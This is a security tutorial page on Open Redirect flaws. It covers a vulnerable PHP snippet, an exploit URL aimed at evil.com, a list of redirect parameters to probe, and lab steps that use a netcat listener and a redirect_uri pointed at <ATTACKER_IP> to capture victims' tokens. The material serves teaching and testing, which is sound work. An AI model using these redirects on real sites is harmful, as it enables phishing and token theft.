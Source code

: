 # Open Redirect

An **Open Redirect** vulnerability allows an attacker to redirect users from a legitimate site to a malicious one by exploiting the site's redirection functionality. This occurs when the application does not validate the URLs to which it redirects users. Attackers can leverage this vulnerability to lead victims to their controlled sites, often during the initial access phase of an attack.

#### 🔍 Understanding the Vulnerability

The core issue arises from code that directly uses user input for redirection without validation. Here’s a simplified example in PHP:

```php
$red = $_GET['url'];
header("Location: " . $red);
```

* **Line 1**: The variable `$red` is assigned the value from the `url` parameter using the `$_GET` superglobal.
* **Line 2**: The `header` function sends a raw redirect to the URL specified in `$red`, without any checks.

This code snippet demonstrates an Open Redirect vulnerability, as it allows any URL to be passed, including malicious ones.

#### ⚠️ Example of Exploitation

An attacker could craft a URL like this to exploit the vulnerability:

```
trusted.site/index.php?url=https://evil.com
```

#### 🔑 Common URL Parameters to Check

When searching for Open Redirect vulnerabilities, look for these common parameters, especially in login pages:

* `?url=`
* `?link=`
* `?redirect=`
* `?redirecturl=`
* `?redirect_uri=`
* `?return=`
* `?return_to=`
* `?returnurl=`
* `?go=`
* `?goto=`
* `?exit=`
* `?exitpage=`
* `?fromurl=`
* `?fromuri=`
* `?redirect_to=`
* `?next=`
* `?newurl=`
* `?redir=`

#### 🛠️ Testing for Open Redirect

To test if an application is vulnerable, follow these steps:

1.  **Set up a Netcat listener**:

    ```bash
    nc -lvnp 1337
    ```
2. **Navigate to the target application** (e.g., `http://oredirect.htb.net/?redirect_uri=/complete.html&token=<RANDOM TOKEN>`).
3.  **Modify the URL** to point to your listener:

    {% code overflow="wrap" %}
    ```
    http://oredirect.example.com/?redirect_uri=http://<ATTACKER_IP>:PORT&token=<RANDOM TOKEN>
    ```
    {% endcode %}
4. **Simulate the victim** by opening a new private window and navigating to the modified URL.
5. **Observe the connection**: When the victim enters their email, you should see a connection to your listener, indicating that the application is indeed vulnerable to Open Redirect. The captured request may also include sensitive tokens.
